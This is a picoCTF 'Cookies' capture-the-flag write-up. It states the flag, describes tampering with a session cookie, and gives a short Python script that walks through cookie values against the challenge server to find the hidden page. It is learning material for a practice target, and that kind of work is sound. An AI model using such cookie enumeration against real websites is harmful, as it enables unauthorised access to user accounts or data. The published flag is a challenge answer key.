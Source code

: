 # Cookies

**FLAG** - picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}

Owing to the name of the challenge, I first check the cookies!

![Alt text](https://github.com/user-attachments/assets/7272a2bc-4be7-4123-8d54-f0e74e4138b2)

I notice that the cookie value is -1, I decide to tinker around with it, by changing it to 0 and refreshing

![image](https://github.com/user-attachments/assets/60dc7993-33cf-42c5-bd85-bcb7a65047de)

with some trial and error I figure out the maximum possible value of the cookie is 28, knowing that I write the following python script

```python
import requests
f=open("answer.txt","a")
for i in range(28):
    cookie="name="+str(i)
    request=requests.get("http://mercury.picoctf.net:29649/check",headers={"Cookie":cookie})
    f.write(request.text)[Uploading answer2.txt…]()

    
f.close()
```

this wrote all the html source code into a answer.txt file, that I later used `Ctrl+F` to find the flag from answer.txt

## Important Concepts Learnt
- Manipulating Cookies
- Using https requests like POST and GET through python

## References:

- https://stackoverflow.com/questions/6260457/using-headers-with-the-python-requests-librarys-get-method
- https://stackoverflow.com/questions/7164679/how-to-send-cookies-in-a-post-request-with-the-python-requests-library
- https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cookie
